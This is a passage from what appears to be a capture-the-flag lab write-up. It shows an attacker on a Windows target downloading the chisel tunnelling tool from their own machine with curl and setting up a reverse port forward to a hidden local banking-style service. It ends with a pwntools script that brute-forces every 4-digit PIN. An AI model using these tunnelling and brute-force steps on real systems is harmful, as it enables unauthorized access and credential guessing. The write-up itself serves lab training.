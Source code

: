 

curl http://10.10.14.17/chisel64.exe -o chisel64.exe 

PS C:\Users\Cortin\Desktop> .\chisel64.exe server
.\chisel64.exe server
2021/02/05 15:13:34 server: Fingerprint pZhJQKIRsu0/S3A8jgTbYnqDu+lR9fKPzHCYbBY94P0=
2021/02/05 15:13:34 server: Listening on http://0.0.0.0:8080

sudo /opt/chisel/chisel_1.7.3_linux_amd64 client 10.10.10.154:8080 910

sudo /opt/chisel/chisel_1.7.3_linux_amd64 server --port 9002 --reverse

chisel64.exe client 10.10.14.17:9002 R:910:127.0.0.1:910

![](2021-02-05-17-20-32.png)

kali@kali:/opt/chisel$ nc localhost 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 1234
 [!] Access denied, disconnecting client....



from pwn import *


for i in range(0,9999):
    r = remote("localhost", 910)
    pin = str(i).zfill(4)
    print(pin)
    r.sendline(pin)
    r.recvuntil("[$] ")
    response_line = r.recvline()
    r.close()
    if b"Access denied" not in response_line:
        print(f"pwned {pin} !!!")
        print(response_line)
        break
